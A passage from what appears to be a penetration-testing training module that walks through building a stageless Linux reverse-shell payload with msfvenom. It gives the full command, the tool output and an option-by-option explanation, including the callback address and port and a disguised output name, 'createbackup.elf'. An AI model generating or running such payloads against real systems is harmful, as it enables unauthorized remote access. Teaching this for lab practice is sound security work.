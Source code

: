 * * *

## Building A Stageless Payload

Now let's build a simple stageless payload with msfvenom and break down the command.

#### Build It

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes

```

#### Call MSFvenom

```shell
msfvenom

```

Defines the tool used to make the payload.

#### Creating a Payload

```shell
-p

```

This `option` indicates that msfvenom is creating a payload.

#### Choosing the Payload based on Architecture

```shell
linux/x64/shell_reverse_tcp

```

Specifies a `Linux` `64-bit` stageless payload that will initiate a TCP-based reverse shell ( `shell_reverse_tcp`).

#### Address To Connect Back To

```shell
LHOST=10.10.14.113 LPORT=443

```

When executed, the payload will call back to the specified IP address ( `10.10.14.113`) on the specified port ( `443`).

#### Format To Generate Payload In
